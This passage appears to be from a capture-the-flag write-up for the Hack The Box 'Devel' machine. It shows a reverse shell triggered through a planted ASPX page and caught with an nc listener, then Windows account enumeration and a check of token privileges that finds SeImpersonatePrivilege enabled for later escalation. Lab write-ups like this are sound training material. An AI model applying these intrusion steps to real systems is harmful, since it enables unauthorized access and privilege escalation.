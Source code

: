 
## Get Reverse Shell

```bash
curl 10.10.10.5/about.aspx
```

```bash
┌──(kali㉿kali)-[~/htb/Devel]
└─$ rlwrap -r -f . nc -nlvp 1111
listening on [any] 1111 ...
connect to [10.10.14.70] from (UNKNOWN) [10.10.10.5] 49182
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

c:\windows\system32\inetsrv>whoami
whoami
iis apppool\web

c:\windows\system32\inetsrv>net user
net user

User accounts for \\

-------------------------------------------------------------------------------
Administrator            babis                    Guest
The command completed with one or more errors.


c:\windows\system32\inetsrv>type C:\Users\babis\Desktop\user.txt
type C:\Users\babis\Desktop\user.txt
Access is denied.
```


# Root Flag
---

## Abuse Privilege Tokens

Since it's a **IIS web service account**, check if it have **impersonate** token first

```bash
c:\windows\system32\inetsrv>whoami /priv
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeShutdownPrivilege           Shut down the system                      Disabled
SeAuditPrivilege              Generate security audits                  Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled
SeUndockPrivilege             Remove computer from docking station      Disabled
SeImpersonatePrivilege        Impersonate a client after authentication Enabled
SeCreateGlobalPrivilege       Create global objects                     Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
SeTimeZonePrivilege           Change the time zone                      Disabled
```
